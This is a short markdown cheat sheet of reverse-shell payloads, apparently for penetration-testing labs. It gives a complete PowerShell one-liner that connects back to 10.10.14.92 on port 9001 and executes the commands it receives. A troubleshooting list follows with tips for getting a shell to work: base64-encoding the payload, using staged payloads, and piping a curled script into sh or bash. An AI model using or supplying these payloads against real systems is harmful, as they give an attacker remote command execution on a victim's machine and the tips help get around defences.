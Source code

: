 # Reverse Shells

## Powershell

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.92',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Troubleshooting

Why isn't my shell working?
- try base64 encoding and piping to `base64 -d | bash`
- try specifying `/bin/sh`
- try a staged payload
- try curling a `.sh` file into `sh` or `bash`